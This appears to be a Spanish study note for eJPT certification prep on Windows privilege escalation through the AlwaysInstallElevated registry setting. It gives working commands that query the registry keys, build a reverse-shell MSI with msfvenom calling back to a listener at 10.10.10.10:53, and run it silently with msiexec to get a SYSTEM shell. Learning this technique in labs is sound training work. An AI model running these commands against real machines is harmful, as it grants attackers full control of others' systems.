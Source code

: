- Consulta el registro de las claves AlwaysInstallElevated:

```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated   reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```
Tenga en cuenta que ambas teclas están configuradas en 1 (0x1).

- En Kali, genere un shell inverso Windows Installer (reverse.msi) usando msfvenom. Actualice la dirección IP de LHOST en consecuencia:  

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f msi -o reverse.msi
```

- Transfiera el archivo reverse.msi al directorio C:\PrivEsc en Windows (use el SMB método de servidor de antes).

- Inicie un oyente en Kali y luego ejecute el instalador para activar un shell inverso que se ejecuta con privilegios SYSTEM:  

```
msiexec /quiet /qn /i C:\PrivEsc\reverse.msi
```

enlace:
[[Preparacion-Ejpt]]
[[Herramientas]]
[[Registry - AutoRuns]]
[[Generate a Reverse Shell Executable]]

